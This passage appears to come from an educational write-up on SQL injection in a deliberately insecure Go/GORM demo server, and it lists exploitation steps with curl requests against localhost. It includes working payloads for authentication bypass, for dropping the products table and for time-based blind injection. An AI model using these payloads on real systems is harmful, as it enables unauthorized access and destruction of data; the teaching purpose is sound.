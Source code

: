 ```go
	})

	log.Println("Server listening on :8080")
	log.Fatal(http.ListenAndServe(":8080", nil))
}
```

### Exploitation Steps

To demonstrate the vulnerability, an attacker would interact with the running application (e.g., via `curl` or a web browser) by crafting malicious inputs for the query parameters.

1. **Authentication Bypass (using `/user_insecure` endpoint):**
    - **Attacker Action:** Send an HTTP GET request to `/user_insecure` with a crafted `username` parameter.
    - **Example Request:** `curl "http://localhost:8080/user_insecure?username=admin%27%20OR%20%271%27=%271"`
    - **Attacker Input:** `username=admin' OR '1'='1`
    - **Resulting GORM Query (simplified):** The `db.Where` clause would effectively become `WHERE username = 'admin' OR '1'='1'`.
    - **Database Execution:** The `OR '1'='1'` clause causes the condition to always evaluate as true. The database will return the first user record it finds, which is typically the 'admin' user if sorted by ID, effectively bypassing the need for a password.
    - **Expected Output:** The application would return details of the 'admin' user, demonstrating unauthorized access.
2. **Data Destruction (using `/delete_product_insecure` endpoint):**
    - **Attacker Action:** Send an HTTP GET request to `/delete_product_insecure` with a crafted `code` parameter.
    - **Example Request:** `curl "http://localhost:8080/delete_product_insecure?code=%27%3B%20DROP%20TABLE%20products%3B%20--"`
    - **Attacker Input:** `code='; DROP TABLE products; --`
    - **Resulting GORM Query (simplified):** The `db.Where` clause for deletion would become `WHERE code = ''; DROP TABLE products; --'`. The injected `DROP TABLE products;` command would be executed by the database, followed by `-` which comments out the rest of the original query.
    - **Database Execution:** The `products` table would be permanently deleted from the database.
    - **Expected Output:** The application might report "Product(s) deleted successfully" or an internal server error, but the critical `products` table would be gone, leading to severe data loss.
3. **Blind SQL Injection (Time-Based, using `/user_insecure` endpoint):**
    - **Attacker Action:** Send an HTTP GET request to `/user_insecure` with a crafted `username` parameter that includes a time-delay function.
    - **Example Request:** `curl "http://localhost:8080/user_insecure?username=admin%27%20AND%20SLEEP%285%29%3B%20--"`
    - **Attacker Input:** `username=admin' AND SLEEP(5); --`
    - **Resulting GORM Query (simplified):** The `db.Where` clause would become `WHERE username = 'admin' AND SLEEP(5); --'`.
    - **Database Execution:** If the `admin` user exists, the database server would pause execution for 5 seconds before returning a response.
    - **Expected Observation:** The attacker observes a noticeable delay in the HTTP response time. This delay confirms the successful execution of the injected SQL, allowing the attacker to infer information (e.g., the existence of a user or specific data) even without direct output from the application.4 This technique is crucial for "blind" injection attacks where direct error messages or query results are suppressed.

